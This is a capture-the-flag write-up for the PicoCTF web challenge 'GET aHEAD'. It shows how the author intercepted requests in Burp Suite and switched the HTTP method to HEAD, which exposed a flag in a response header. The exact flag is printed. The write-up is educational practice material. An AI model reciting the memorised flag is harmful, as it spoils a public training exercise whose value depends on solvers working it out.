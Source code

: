 ```yaml
---
title: "GET aHEAD"
description: "Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:28916/\n\nHint: Maybe you have more than 2 choices\nHint: Check out tools like Burpsuite to modify your requests and look at the responses"
pubDate: 2025-03-13
ctf: "PicoCTF"
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["easy"]
image: "./images/picoctf/getahead/redorblue.png"
---
```


We are supplied a web application that has a red or a blue option to choose from:
![redorblue.png](images/picoctf/getahead/redorblue.png)

Before I begin, I set up Burp Suite with PwnFox to intercept my requests, and view what is being transmitted.

I click 'Choose Red', then 'Choose Blue' and view the requests inside Burp Suite.

'Choose Red' sends this:
```
GET /index.php? HTTP/1.1
Host: mercury.picoctf.net:28916
...
```

Nothing particularly interesting, no data or parameters.

Let's look at 'Choose Blue's request:
```
POST /index.php HTTP/1.1
Host: mercury.picoctf.net:28916
...
```

It's sending a POST (with no data) and that makes the page blue.

Looking at request methods (GET, POST) I use [this list](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) to look for any others.

Remembering the title of the challenge, `HEAD` is another!

I send the POST request to the repeater in Burp Suite, and change the method from POST to HEAD.
```
HEAD /index.php HTTP/1.1
Host: mercury.picoctf.net:28916
...
```

The application responds:
```
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_70bc61c4}
Content-type: text/html; charset=UTF-8
```

Flag: `picoCTF{r3j3ct_th3_du4l1ty_70bc61c4}`